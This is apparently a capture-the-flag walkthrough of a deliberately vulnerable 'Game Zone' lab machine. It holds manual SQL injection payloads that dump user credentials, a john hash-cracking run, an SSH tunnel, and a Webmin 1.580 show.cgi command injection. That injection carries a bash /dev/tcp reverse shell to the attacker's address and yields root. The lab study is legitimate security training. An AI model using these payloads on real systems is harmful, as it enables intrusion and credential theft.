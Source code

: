 ### Gamezone

`export ip=10.10.191.147`
------------------------------------

#### Nmap

```
# Nmap 7.94SVN scan initiated Tue May  7 19:51:56 2024 as: nmap -sC -sV -oN nmap/initial 10.10.243.216
Nmap scan report for 10.10.243.216
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Game Zone
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May  7 19:53:15 2024 -- 1 IP address (1 host up) scanned in 79.24 seconds
```

#### Initial access without sqlmap

- Found login page - try SQL injection 
    `'OR 1=1 -- -` successfull

- Using ' break the SQL syntax and we get error - try exploiting it manually
  
    `' union select 1,2,3 -- -`
  
    ![](/home/edith/pwn/vuln_machines/gamzezone/001.png)
  
    `' union select 1,version(),database() -- -`
  
    ![](/home/edith/pwn/vuln_machines/gamzezone/002.png)
  
    `' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema="db" -- -`
  
    ![](/home/edith/pwn/vuln_machines/gamzezone/003.png)
  
    `' union select 1,group_concat(column_name),3 from information_schema.columns where table_name="users" -- -`
  
    ![](/home/edith/pwn/vuln_machines/gamzezone/004.png)
  
    `'' union select 1,group_concat(username,' ',pwd),3 from users -- -`
  
    ![](/home/edith/pwn/vuln_machines/gamzezone/005.png)
  
  > Username : agent47 and Password Hash : ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

- Crack using john

```
    ┌──(edith🛸HackBox)-[~/pwn/vuln_machines/gamzezone]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=12
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (agent47)     
1g 0:00:00:00 DONE (2024-05-09 21:02) 7.142g/s 21065Kp/s 21065Kc/s 21065KC/s wildboy23..vainlove                                                             
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably                                                                
Session completed.                                                        
```

- Try this db password for ssh login - its successfull

```
┌──(edith🛸HackBox)-[~/pwn/vuln_machines/gamzezone]
└─$ ssh agent47@10.10.191.147 
The authenticity of host '10.10.191.147 (10.10.191.147)' can't be established.
ED25519 key fingerprint is SHA256:CyJgMM67uFKDbNbKyUM0DexcI+LWun63SGLfBvqQcLA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.191.147' (ED25519) to the list of known hosts.
agent47@10.10.191.147's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$ whoami
agent47
```

### Privilege escalation without metasploit

- On checking, we found that some services is running over port 10000 

```
agent47@gamezone:/$ ss -putln
Netid State      Recv-Q Send-Q                               Local Address:Port                                              Peer Address:Port              
udp   UNCONN     0      0                                                *:10000                                                        *:*                  
udp   UNCONN     0      0                                                *:68                                                           *:*                  
tcp   LISTEN     0      80                                       127.0.0.1:3306                                                         *:*                  
tcp   LISTEN     0      128                                              *:10000                                                        *:*                  
tcp   LISTEN     0      128                                              *:22                                                           *:*                  
tcp   LISTEN     0      128                                             :::80                                                          :::*                  
tcp   LISTEN     0      128                                             :::22                                                          :::*                  
agent47@gamezone:/$ 
```

But it was not showing in nmap result may be filtered in firewall - try exposing the service to our machine using reverse ssh tunnel

**Syntax :** ssh -L 10000:localhost:10000 <username>@<ip>

```
┌──(edith🛸HackBox)-[~/pwn/vuln_machines/gamzezone]
└─$ ssh -L 10000:localhost:10000 agent47@10.10.191.147                                                                                                       
agent47@10.10.191.147's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Thu May  9 11:47:44 2024 from 10.17.49.246
```

Then we can access localhost:10000 

![](/home/edith/pwn/vuln_machines/gamzezone/006.png)

Webmin CMS has login screen - try using our old creds (machine creds) - Login successfull

webmin version found to be 1.580 - Check for exploit

```
──(edith🛸HackBox)-[~/pwn/vuln_machines/gamzezone]
└─$ searchsploit webmin 1.580
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)                                                      | unix/remote/21851.rb
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                              | linux/webapps/47330.rb
```

Based on the comments in metasploit exploit (by using searchsploit -x <path>) - try to acces that uri with random alphanumeric characters and command on the authenticated session

![](/home/edith/pwn/vuln_machines/gamzezone/007.png)

- We can use linux reverse shell from [revshells.com](https://www.revshells.com/)
  
    `bash -i >& /dev/tcp/10.17.49.246/4444 0>&1`

- Then our URL is `http://localhost:10000/file/show.cgi/bin/adca5| bash -c 'bash -i >& /dev/tcp/10.17.49.246/4444 0>&1'|"`

- Set the netcat listerner and access the URL

```
┌──(edith🛸HackBox)-[~/pwn/vuln_machines/gamzezone]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.17.49.246] from (UNKNOWN) [10.10.0.222] 40192
bash: cannot set terminal process group (1225): Inappropriate ioctl for device
bash: no job control in this shell
root@gamezone:/usr/share/webmin/file/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@gamezone:/usr/share/webmin/file/# 
```

**Some other way of pwning :** https://ratiros01.medium.com/tryhackme-game-zone-b41874804d4e